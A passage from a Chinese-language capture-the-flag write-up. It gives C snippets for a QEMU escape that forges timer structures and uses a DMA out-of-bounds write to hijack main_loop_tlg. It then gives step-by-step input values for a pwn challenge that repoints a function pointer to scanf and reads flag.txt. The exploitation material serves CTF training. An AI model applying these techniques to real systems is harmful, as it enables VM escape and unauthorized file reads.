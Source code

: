 ```c
  ts->opaque = cmd_addr;
  ts->scale = 1000000;
  ts->expire_time = -1;
```

接着就是通过越界写去篡改main_loop_tlg，为了方便减少误差，注意两点。一个是直接使用qemu的plt表内的函数，不要去泄露libc，那样就画蛇添足了；另一个是伪造tlg的时候尽量一次写完，但是要对qemu_clocks进行伪造，可以在实际利用时提高稳定性

```
  SetDMACMD(1);
  SetDMADST(main_loop_tlg_addr - DMA_BUF_ADDR + 0x18);
  SetDMASRC(virt2phys(payload));
  SetDMACNT(0x200);
  TriggerDMAWrite();
```

提一下，用musl-gcc可以在静态编译时极大地减小exp大小

### secure-prototype(low)

这道题目没有开启PIE，意味着我们可以随意去预测任意地址。
根据分析发现，这道题目除了39321的DEBUG功能外，还有1056这一个功能。

![](https://i.imgur.com/flsOdhh.png)

这个功能编辑了off_22050的函数指针

![](https://i.imgur.com/s0gM4w0.png)

而这个函数指针在4919功能中被调用。
因此，我们可以通过传入参数更改该函数指针，随后可以达到任意执行函数的效果。
此处改为plt表中的scanf函数

![](https://i.imgur.com/5FNhswz.png)


随后即可改写任意内存。
而在功能48中，程序打开了filename字符串所指向的文件，因此我们可以改写filename字符串达到任意读文件的目的。

![](https://i.imgur.com/goYrVD8.png)

接下来要解决的是scanf的参数，参数2已经有了（filename字符串所在的地址），参数1可以查找%s字符串位置，在这里：

![](https://i.imgur.com/IkzTyAg.png)

大致思路有了，接下来构造exp:
发送 1056 66928 0 0 改写函数指针到scanf函数
发送 4919 70140 139352 0 调用scanf函数，其中两个参数分别为%s和filename的地址
发送 flag.txt 改写filename为flag.txt
发送 48 0 0 0 执行读文件操作，即可读到flag.txt文件

## Web

### trading-api(High)
